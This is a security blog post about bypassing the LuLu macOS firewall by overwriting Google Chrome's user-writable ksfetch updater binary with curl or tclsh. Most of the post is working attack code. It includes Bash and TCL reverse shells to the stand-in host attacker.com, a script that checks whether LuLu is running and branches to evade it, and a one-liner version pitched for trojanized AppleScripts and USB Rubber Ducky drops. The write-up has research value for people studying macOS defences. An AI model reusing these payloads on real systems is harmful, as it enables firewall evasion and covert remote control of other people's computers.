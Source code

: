 ```yaml
---
layout: post
title: "Bypass macOS Firewall App w/ Google Chrome Dependencies?"
excerpt: "Firewall solutions for macOS aren't impervious to attacks. By taking advantage of web browser dependencies already whitelisted by the firewall, an attacker can exfiltrate data or remotely control a MacBook."
categories: [publication,write-up]
modified: 2019-06-25
---
```


The bypass is made possible due to weak file and directory permissions assigned to some third-party applications installed outside the App Store. Let's have a look at file permissions for the Google Chrome browser, which was installed directly from Google via DMG installer.


```
$ ls -l /Applications/

total 0
drwxr-xr-x   3 root       admin    96B Jun 12 03:23 1Password 7.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 Calculator.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 FaceTime.app
drwxr-xr-x@  3 tokyoneon  admin    96B Jun  4 08:50 Google Chrome.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 Home.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 Image Capture.app
```

Notice the Google Chrome app is owned by the user and not "root" like other applications. And with another look at the `ksfetch` and `GoogleSoftwareUpdateAgent` rules in LuLu, we'll notice both of the binaries are in the `/Users/$USER/Library/` directory.

![](img/lulu01.jpg)


In addition to other files in the Chrome directory, these binaries modifiable by the user. To be clear, any files in `/Users/$USER/Library/` and `/Application/Google\ Chrome.app/` are fair game for an attacker and easily modified.

The below command will override `ksfetch` with `curl`, which is not whitelisted in the LuLu firewall.

```
$ cp /usr/bin/curl /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch
```

Despite Curl not being whitelisted, an attacker can still access the internet this way.

```
$ /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch "https://ifconfig.me/all"

ip_addr: 198.251.89.219
remote_host: unavaiable
user_agent: curl/7.54.0
port: 28596
language:
referer:
connection:
keep_alive:
method: GET
encoding:
mime: */*
charset:
via: 1.1 google
forwarded: 198.251.89.219, 216.239.36.21~
```

Ksfetch is used in this example, but `GoogleSoftwareUpdateAgent` and Google Chrome itself can be used to establish connections to a remote server. Overriding Chrome will, of course, break the application’s functionalities. But at that point, an attacker would have already exfiltrated sensitive information. With this knowledge, let's setup a reverse shell payload and remotely control the MacBook.

The following example utilizes `tclsh`, which will create an interactive shell the attacker can use to execute commands remotely. For good measure, the `tclsh` binaries and symlinks have been manually blocked in the firewall.

![](img/lulu02.jpg)

As a low privileged user, the `tclsh` binary is copied over `ksfetch`, which completely overrides the file and its functionalities.

```
$ cp /usr/bin/tclsh /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch
```

The `tclsh` command is now invoked by directly calling the `ksfetch` binary. From this interactive terminal, commands are executed exactly as they would be with a Netcat or Bash shell.

```
$ /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch

% ls -la /
total 36
drwxr-xr-x@   2 root  wheel     64 Jun 25 09:57 .PKInstallSandboxManager-SystemSoftware
drwx------    5 root  wheel    160 Jun  5 19:36 .Spotlight-V100
drwxrwxr-x+ 138 root  admin   4416 Jun 25 09:54 Applications
drwxr-xr-x+  70 root  wheel   2240 Jun  5 19:37 Library
drwxr-xr-x@   2 root  wheel     64 Oct  5  2018 Network
drwxr-xr-x@   5 root  wheel    160 Sep 21  2018 System
drwxr-xr-x    6 root  admin    192 May 10 17:34 Users
drwxr-xr-x@   5 root  wheel    160 Jun 25 18:51 Volumes
drwxr-xr-x@  37 root  wheel   1184 May 22 11:14 bin
drwxrwxr-t@   2 root  admin     64 Oct  5  2018 cores
dr-xr-xr-x    3 root  wheel   7834 Jun 25 09:50 dev
lrwxr-xr-x@   1 root  wheel     11 Oct  5  2018 etc -> private/etc
dr-xr-xr-x    2 root  wheel      1 Jun 25 16:57 home
dr-xr-xr-x    2 root  wheel      1 Jun 25 16:57 net
drwxr-xr-x    3 root  wheel     96 Oct  3  2018 opt
drwxr-xr-x    6 root  wheel    192 Jun  5 17:49 private
drwxr-xr-x@  64 root  wheel   2048 May 22 11:14 sbin
lrwxr-xr-x@   1 root  wheel     11 Oct  5  2018 tmp -> private/tmp
drwxr-xr-x@   9 root  wheel    288 Sep 21  2018 usr
lrwxr-xr-x@   1 root  wheel     11 Oct  5  2018 var -> private/var

% uname -a
Darwin User-MacBook.local 18.6.0 Darwin Kernel Version 18.6.0: Thu Apr 25 23:16:27 PDF 2019; root:xnu-4903.261.4~2/RELEASE_X86_64 x86_64
%
```

### Design the Payload with Active Evasion

So, how would an attacker know if the operating system has LuLu installed to begin with? It's possible to enumerate installed security software by performing packet inspection and observing LuLu's auto-updates. However, we'll instead have the payload detect LuLu processes before executing any commands.

In the below example, background processes are examined with `ps`. Several active processes appear using the "LuLu" name.

```
$ ps auxwww | grep -i [l]ulu

root                94   0.3  0.7  4349052  28088   ??  Rs    1:33AM   0:18.59 /Library/Objective-See/LuLu/LuLu.bundle/Contents/MacOS/LuLu
tokyoneon          291   0.0  0.8  4924936  35092   ??  S     1:34AM   0:01.10 /Applications/LuLu.app/Contents/Library/LoginItems/LuLu Helper.app/Contents/MacOS/LuLu Helper
```

A simple Bash `if` statement, embedded in an AppleScript, could effectively detect the LuLu processes.

```bash
#!/bin/bash

if [[ ! "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then
    echo "LuLu not found."
else
    echo "LuLu detected."
fi
```

A practical script that goes beyond detecting LuLu processes and automatically overrides Google Chrome binaries could appear as follows.

```bash
#!/bin/bash

# The `ps` command is used to view active processes and
# locate LuLu running in the background with `grep`.
if [[ ! "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then

    # An arbitrary `echo` command. If LuLu is not found the
    # following commands will execute. An example Bash
    # reverse shell is included.
    echo "LuLu not found. Hack the planet!"
    /bin/bash -i >& /dev/tcp/attacker.com/443 0>&1
else
    # Arbitrary `echo` command with sad face.
    echo "Lulu detected :("

    # Copy the `tclsh` binary over `ksfetch`.
    /bin/cp /usr/bin/tclsh /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch

    # TCL reverse shell, covered in the below article.
    # https://null-byte.com/tcl-0186330/
    echo 'set s [socket attacker.com 443];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch &

    # Another `echo` command.
    echo "Bypass LuLu and hack the planet!"
fi
```

The above script is condensed into one-line to function nicely with trojanized AppleScripts, [Mousejack payloads](/0x03), [USB drops](/0x01), and USB Rubber Ducky payloads.

```bash
if [[ ! "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then /bin/bash -i >& /dev/tcp/attacker.com/443 0>&1; else /bin/cp /usr/bin/tclsh /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch && echo 'set s [socket attacker.com 443];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch & fi
```

If Chrome isn't installed on the target system, a different dependency of an alternate browser is enumerable with some effort. Discovering the installed browser(s) could appear as shown below.

```bash
#!/bin/bash

if [[ ! -n "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then
	echo "LuLu not found.";
else
	echo "LuLu detected.";
	if [[ -d "/Applications/Google Chrome.app/" ]]; then
		echo "Chrome browser detected. Overriding Ksfetch...";
	else
		if [[ -d "/Applications/Firefox.app/" ]]; then
			echo "Firefox detected. Overriding <unknown>...";
		else
			if [[ -d "/Applications/Opera.app/" ]]; then
				echo "Opera detected. Overriding <unknown>...";
			else
				echo "Uh-oh, we're out of browsers to exploit...";
			fi;
		fi;
	fi;
fi

```

---

{{ site.wht_credit }}

